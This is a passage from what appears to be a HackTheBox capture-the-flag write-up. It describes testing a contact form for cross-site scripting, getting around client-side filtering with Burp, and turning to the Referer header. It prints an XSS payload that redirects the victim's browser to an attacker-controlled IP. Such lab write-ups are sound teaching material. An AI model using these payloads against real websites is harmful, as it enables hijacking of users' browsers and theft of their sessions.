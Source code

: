 ### Identify XSS

#### Strategy

This is a cross-site scripting challenge that is quite difficult to identify, and the kind of thing that only belongs in the Insane level on a HTB machine. Given that I only have one real way to interact with the site at this point, I’ll focus on the contact form on portfolio.stacked.htb.

When I submit the form, there’s nothing displayed back to me, but rather it’s somehow transmitted to a potential user of the site. Thinking about ways to interact with the user, two come to mind:
- Sending a link to a page I’m hosting, and using various methods to exploit the user from there.
- Sending kind of cross-site scripting (XSS) payload that will be handled as HTML/JS on the receiving end, allowing me to run JavaScript and get the browser to take actions on my behalf.

#### Links

I’ll submit various kinds of links to the form. The phone number and email fields have tight restrictions, so I can’t place a link in them. But I’ll try the rest. For example:

![image-20210824105617868](https://0xdfimages.gitlab.io/img/image-20210824105617868.png)

I’ll also go into Burp and forward this request to Repeater. There I can get past the client-side filtering and send links in the other fields.

With a Python webserver watching for any contact, none comes.

#### XSS Fails

Turning to XSS, I tried started with a basic payload that would just redirect the page to my server:

```

<script>document.location="http://10.10.14.6/referer"</script>

```

On submitting, it pops an error:

![image-20210824111614093](https://0xdfimages.gitlab.io/img/image-20210824111614093.png)

There’s two ways to get around an error like this. One would be to try to bypass the filter with creative payloads that don’t trigger the filter but still execute JavaScript I provide. Unfortunately, I wasn’t able to find any way to do that.

The other is to try other fields. I’ll go through Burp to try the fields with client-side filtering, but all of them trigger the alert.

#### Referer

Thinking about what happens on submitting, there is an HTTP POST request to `process.php`. This script will parse the incoming request, pulling out whatever information from the request it wants, and generate some way to send that to the user who needs to handle the requests.

There may be cases where it makes sense to include something like the referrer header in this information. For example, if the same web page is used to manage contact me submissions from multiple sites. There’s a real life example of XSS in the Referer head [here](https://www.horizon3.ai/news/disclosures/mautic-unauth-xss-to-rce).
